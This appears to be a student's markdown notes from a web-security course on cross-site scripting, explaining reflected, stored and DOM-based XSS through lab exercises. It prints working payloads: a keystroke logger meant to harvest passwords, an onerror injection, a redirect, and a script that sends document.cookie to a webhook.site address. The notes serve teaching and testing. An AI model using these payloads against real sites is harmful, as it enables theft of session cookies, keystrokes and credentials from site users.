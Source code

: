 ## XSS (Cross Site Scripting)

Cross site scripting, or XSS, is when you execute javascript into the victim's browser, often giving us control of the application for that user.

XSS is also very flexible and can be used to chain other issues together.

There are 3 main types:

Reflected - This is when the script is included in the response from a web server.  You send a request injecting some javascript and you get it back in the response. This is limited since you can really only do it to yourself.  However, you can use this as a base to test as well as possibly putting a url in the javascript and trying to get a user to click on it.   

Stored - This is where the injected javascript is stored on the database and then served to anyone that visits that site.  

DOM-based - Everything happens locally in the browser.  

### Testing

While in the browser, you hit CTRL + SHIFT + C and it should give you the dev tools for the web browser.  You can then go to the console and try a number of things.

![ScreenShot26.png](Images/ScreenShot26.png)

Here we try 3 payloads and all worked.

`alert()` gave us a popup  
`print()` opens the print window to print off the page  
`prompt()` as you can see opens an input window with the text that was put into the ()'s  

Using `alert()` in this manner is not recommended.  Not because you'll break something but because it may be blocked where other things aren't.  Use `print()` to open the print window or `prompt("message")` to test and see.

You can find more deets at `https://portswigger.net/research/alert-is-dead-long-live-print`

With XSS we can create a simple keylogger.

`function logKey(event){console.log(event.key)}`  
`document.addEventListener('keydown', logKey)`  

When we put these two lines in and then click back into the window and start typing, we get the key pressed showing up in the console.  We can change the `{console.log()}` part to a collection API or something similar in order to grab keystrokes and potentially passwords or other info typed in (credit card numbers, ss#'s, etc).

![ScreenShot27.png](Images/ScreenShot27.png)


### XSS 01 (Basic XXS)

![ScreenShot28.png](Images/ScreenShot28.png)

![ScreenShot29.png](Images/ScreenShot29.png)

Here we have a DOM based scripting attack.  We can tell this by opening the dev tools, looking at the network tab and seeing that there is no network traffic each time we submit an item.  Also, if you reload the page, you lose all the items placed into the list.

A common test payload is `<script>prompt(1)</script>` but when we submit that, we just get a blank bullet point.  The reason is we aren't actually loading that code.  If it were loading, it would execute, but if we refresh the page all those items go away and it's not executed (being a DOM based attack).

![ScreenShot30.png](Images/ScreenShot30.png)

So, we have to get creative with our payload.  Something like `<img src=x onerror="prompt(1)">` will try to load an image and when it does error out, since there is no image at /x on the server or anywhere reachable, it will run the `onerror` section of the code.

![ScreenShot31.png](Images/ScreenShot31.png)

As you can see on the page, the image fails to load, we even see the "broken image" item in the list.  But we get the prompt.  Success!

Now, let's see if we can get something else to pull up in the window.  By using `<img src=x onerror="window.location.href='https://tcm-sec.com'">` we can forward the site to any site we want (in this case `https://tcm-sec.com`).

### Stored XXS Attacks

Stored XXS is when the injected script is added to the page, like in a message board and adding a comment.  It's called stored cause it's stored on the server and anyone who loads that page will have that script run.  For example, if we come across a message board and the input is not properly sanitized, we can enter things like `<script>prompt(1)</script>` and if we refresh the page, we get the prompt window.  If we add another comment, we get the prompt window.  Every time that page loads, we will get the prompt window until an admin goes in and removes that post.

You can also test quickly with something like `<h1>Hello</h1>` and see if the text "Hello" comes back in the `h1` format.

To really be able to check this and make sure that it's not just storing the message in your session, you can use Firefox containers in order to have multiple accounts through different tabs to the same site.  That way you can test across accounts.

The challenge exercise involves a ticket submitting system that is vulnerable to attack (stored I believe) and it grabs an admin cookie without letting the user know.

You can use a site called webhook.site in order to give your payload something to point at.  Inserting `<script>var i=new Image; i.src="https://webhook.site/4432caa9-6a78-4410-aa7e-b2b43a16441c/?"+document.cookie;</script>` with the webhook.site address, along with the `/?` to make the cookie a parameter and then append (`+`) the cookie with `document.cookie`

When testing this in real world, you won't use sites like webhook.site.  You can spin up a webserver to catch traffic in a variety of ways that don't involve a public website that might collect user data.